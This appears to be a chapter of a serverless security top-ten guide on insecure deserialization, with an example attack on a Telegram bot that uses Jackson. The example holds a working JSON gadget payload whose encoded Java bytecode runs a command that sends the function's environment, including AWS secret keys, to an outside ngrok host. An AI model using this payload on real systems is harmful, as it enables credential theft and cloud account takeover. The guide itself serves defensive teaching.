

# S8:2017 Insecure Deserialization

## Attack Vectors

Dynamic languages like Python and NodeJS, together with the common use of JSON, a serialized data type, could make deserialization attacks a little more common in the serverless world.

## Security Weakness

Together with the possible attack vector, the fact that most functions use 3rd-party libraries to handle the (de)serialization of the data could introduce such weakness to our serverless application. Deserialization vulnerabilities are pretty common in Python (e.g. [pickle](http://xhyumiracle.com/python-pickle-injection)) and JavaScript ([node-serialize](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)). But could also be found in [.NET and Java](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf).

## Impact

As usual, the business impact depends on the application and the data it handles. Insecure deserialization usually results in running arbitrary code that could eventually lead to data leakage and, in severe cases, even resource and account control.

## How to Prevent

- Validate serialized objects, originating from any untrusted data (e.g. cloud storage, databases, emails, notifications, APIs) by enforcing strict type constraints before processing it.
- Review 3rd-party libraries for known deserialization vulnerabilities.
- It is also a good practice to monitor deserialization usage and exceptions to identify possible attacks.

## Example Attack Scenario

An application is using a Telegram chat Bot agent to provide information about movies. To do so, a function is triggered when text messages are received (via API GW), taking the input and returning data related to the requested movie using the Open Movie Database (OMDb) API. However, the JsonMapper class is using JSON deserialization, by calling jackson.databind.ObjectMapper.readValue() which is known to be vulnerable.



This allows any unauthenticated telegram user to send malicious content via text and without performing input validation. To exploit it, the attacker needs to send a Java serialized object in the telegram text which will be translated into a JSON as part of the Bot API request.


By using the following payload, attackers can steal AWS environment data such as `AWS_SESSION_TOKEN`, `AWS_SECRET_ACCESS_KEY`, `AWS_SECURITY_TOKEN`, which could be used to create an AWS [AssumeRole](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role.html) and access AWS resources.

```
{ 'id': 124,
  'obj':[ 'com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',
    {
    'transletBytecodes' :
  ['yv66vgAAADQAHgoABgARCgASABMIABQKABIAFQcAFgcAFwEABjxpbml0PgEAAygpVgEABENvZG
  UBAA9MaW5lTnVtYmVyVGFibGUBAARtYWluAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgEACkV
  4Y2VwdGlvbnMHABgBAApTb3VyY2VGaWxlAQAMcGF5bG9hZC5qYXZhDAAHAAgHABkMABoAGw
  EAR2Vudj1gZW52fGJhc2U2NCAtLXdyYXA9MGA7IGN1cmwgaHR0cDovL3Byb3RlZ29sYWJzLm5nc
  m9rLmlvP2RhdGE9JHtlbnZ9DAAcAB0BAAdwYXlsb2FkAQAQamF2YS9sYW5nL09iamVjdAEAE2phd
  mEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxq
  YXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5n
  L1Byb2Nlc3M7ACEABQAGAAAAAAACAAEABwAIAAEACQAAAB0AAQABAAAABSq3AAGxAAAAAQA
  KAAAABgABAAAAAQAJAAsADAACAAkAAAAmAAIAAgAAAAq4AAISA7YABEyxAAAAAQAKAAAACgA
  CAAAABAAJAAUADQAAAAQAAQAOAAEADwAAAAIAEA=='],
      'transletName' : 'a.b',
      'outputProperties' : { }
    }
  ]
}
```

When the code runs, it will launch a new process which will send the environment credentials to the attacker. This could eventually lead to invoking the function manually, providing it with any type of input which can end in a complete takeover of cloud resources, depending on the permissions of the function.

